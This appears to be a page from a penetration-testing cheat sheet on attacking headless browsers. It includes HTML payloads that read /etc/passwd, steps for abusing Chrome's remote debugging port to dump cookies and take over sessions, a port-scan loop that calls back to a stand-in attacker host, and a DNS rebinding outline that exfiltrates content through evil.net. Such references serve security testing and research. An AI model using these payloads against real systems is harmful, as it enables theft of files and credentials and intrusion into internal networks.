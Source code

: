 # Headless Browser

> A headless browser is a web browser without a graphical user interface. It works just like a regular browser, such as Chrome or Firefox, by interpreting HTML, CSS, and JavaScript, but it does so in the background, without displaying any visuals.

> Headless browsers are primarily used for automated tasks, such as web scraping, testing, and running scripts. They are particularly useful in situations where a full-fledged browser is not needed, or where resources (like memory or CPU) are limited.


## Summary

* [Headless Commands](#headless-commands)
* [Local File Read](#local-file-read)
* [Debugging Port ](#debugging-port)
* [Network](#network)
    * [Port Scanning](#port-scanning)
    * [DNS Rebinding](#dns-rebinding)
* [References](#references)


## Headless Commands

Example of headless browsers commands:

```ps1
google-chrome --headless[=(new|old)] --print-to-pdf https://www.google.com
firefox --screenshot https://www.google.com
"C:\Program Files (x86)\Microsoft\Edge\Application\msedge.exe" --headless --disable-gpu --window-size=1280,720 --screenshot="C:\tmp\screen.png" "https://google.com"
```


## Local File Read

Target: `google-chrome-stable --headless[=(new|old)] --print-to-pdf https://site/file.html`

* Javascript Redirect
    ```html
    <html>
        <body>
            <script>
                window.location="/etc/passwd"
            </script>
        </body>
    </html>
    ```

* Iframe
    ```html
    <html>
        <body>
            <iframe src="/etc/passwd" height="640" width="640"></iframe>
        </body>
    </html>
    ```


## Debugging Port 

**Target**: `google-chrome-stable --headless=new --remote-debugging-port=XXXX ./index.html`   

**Tools**:

* [slyd0g/WhiteChocolateMacademiaNut](https://github.com/slyd0g/WhiteChocolateMacademiaNut) - Interact with Chromium-based browsers' debug port to view open tabs, installed extensions, and cookies
* [slyd0g/ripWCMN.py](https://gist.githubusercontent.com/slyd0g/955e7dde432252958e4ecd947b8a7106/raw/d96c939adc66a85fa9464cec4150543eee551356/ripWCMN.py) - WCMN alternative using Python to fix the websocket connection with an empty `origin` Header.

> [!NOTE]  
> Since Chrome update from December 20, 2022, you must start the browser with the argument `--remote-allow-origins="*"` to connect to the websocket with WhiteChocolateMacademiaNut.

**Exploits**:

* Connect and interact with the browser: `chrome://inspect/#devices`, `opera://inspect/#devices`
* Kill the currently running browser and use the `--restore-last-session` to get access to the user's tabs
* Dump cookies: 
* Stored data: `chrome://settings`
* Port Scan: In a loop open `http://localhost:<port>/json/new?http://callback.example.com?port=<port>`
* Leak UUID: Iframe: `http://127.0.0.1:<port>/json/version`
* Local File Read: [pich4ya/chrome_remote_debug_lfi.py](https://gist.github.com/pich4ya/5e7d3d172bb4c03360112fd270045e05)
* Node inspector `--inspect` works like a `--remote-debugging-port`
    ```ps1
    node --inspect app.js # default port 9229
    node --inspect=4444 app.js # custom port 4444
    node --inspect=0.0.0.0:4444 app.js
    ```

> [!NOTE]  
> The flag `--user-data-dir=/path/to/data_dir` is used to specify the user's data directory, where Chromium stores all of its application data such as cookies and history. If you start Chromium without specifying this flag, you’ll notice that none of your bookmarks, favorites, or history will be loaded into the browser.


## Network

### Port Scanning

Port Scanning: Timing attack

* Dynamically insert an `<img>` tag pointing to a hypothetical closed port. Measure time to onerror.
* Repeat at least 10 times → average time to get an error for a closed port
* Test random port 10 times and measure time to error
* If `time_to_error(random_port) > time_to_error(closed_port)*1.3` → port is opened

**Consideration**:

* Chrome blocks by default a list of "known ports"
* Chrome blocks access to local network addresses except localhost through 0.0.0.0


### DNS Rebinding

* [nccgroup/singularity](https://github.com/nccgroup/singularity) - A DNS rebinding attack framework.

1. Chrome will make 2 DNS requests: `A` and `AAAA` records
    * `AAAA` response with valid Internet IP
    * `A` response with internal IP
2. Chrome will connect in priority to the IPv6 (evil.net)
3. Close IPv6 listener just after first response
4. Open Iframe to evil.net
5. Chrome will attempt to connect to the IPv6 but as it will fail it will fallback to the IPv4
6. From top window, inject script into iframe to exfiltrate content


## References

- [Attacking Headless Browsers - truff - May 22, 2024](#bb-discord-replay-not-available)
- [Browser based Port Scanning with JavaScript - Nikolai Tschacher - January 10, 2021](https://incolumitas.com/2021/01/10/browser-based-port-scanning/)
- [Chrome DevTools Protocol - Documentation - July 3, 2017](https://chromedevtools.github.io/devtools-protocol/)
- [Cookies with Chromium’s Remote Debugger Port - Justin Bui - December 17, 2020](https://posts.specterops.io/hands-in-the-cookie-jar-dumping-cookies-with-chromiums-remote-debugger-port-34c4f468844e)
- [Debugging Cookie Dumping Failures with Chromium’s Remote Debugger - Justin Bui - July 16, 2023](https://slyd0g.medium.com/debugging-cookie-dumping-failures-with-chromiums-remote-debugger-8a4c4d19429f)
- [Node inspector/CEF debug abuse - HackTricks - July 18, 2024](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/electron-cef-chromium-debugger-abuse)
- [Post-Exploitation: Abusing Chrome's debugging feature to observe and control browsing sessions remotely - wunderwuzzi - April 28, 2020](https://embracethered.com/blog/posts/2020/chrome-spy-remote-control/)
- [Tricks for Reliable Split-Second DNS Rebinding in Chrome and Safari - Daniel Thatcher - December 6, 2023](https://www.intruder.io/research/split-second-dns-rebinding-in-chrome-and-safari)